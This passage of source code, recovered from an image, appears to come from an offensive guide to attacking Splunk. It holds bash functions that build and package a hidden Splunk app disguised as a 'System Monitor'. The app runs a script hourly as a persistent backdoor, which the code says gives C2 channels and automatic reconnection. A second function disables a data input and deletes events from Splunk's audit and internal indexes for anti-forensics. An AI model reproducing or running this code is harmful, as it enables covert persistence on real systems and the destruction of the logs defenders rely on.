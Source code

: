 ```bash
    time.sleep(3600)
EOF
    
    # Create scheduled execution
    cat > persistent_backdoor/$app_name/default/inputs.conf << 'EOF'
[script://./bin/monitor.py]
disabled = 0
interval = 3600
sourcetype = system_monitor
EOF
    
    cat > persistent_backdoor/$app_name/default/app.conf << 'EOF'
[install]
state = enabled
is_configured = true

[ui]
is_visible = false
label = System Monitor

[launcher]
author = System
description = System monitoring service
version = 1.0.0
EOF
    
    # Package persistent backdoor
    tar -czf persistent_backdoor.tar.gz persistent_backdoor/
    
    echo "[+] Persistent backdoor created: persistent_backdoor.tar.gz"
    echo "[+] Provides multiple C2 channels and automatic reconnection"
}

# install_persistent_backdoor
```

#### Log Tampering and Anti-Forensics
```bash
# Splunk log manipulation and anti-forensics
splunk_anti_forensics() {
    local splunk_url=$1
    
    echo "[+] Implementing anti-forensics measures"
    
    # Disable audit logging
    curl -s -b cookies.txt -X POST \
      -d "disabled=1" \
      "$splunk_url/services/data/inputs/splunktcp/cooked:9997"
    
    # Clear audit indexes
    audit_indexes=(
        "_audit"
        "_internal" 
        "_introspection"
    )
    
    for index in "${audit_indexes[@]}"; do
        echo "[+] Manipulating index: $index"
        
        # Delete recent events (requires admin privileges)
        curl -s -b cookies.txt -X POST \
          -d "search=| delete" \
          "$splunk_url/services/search/jobs" \
```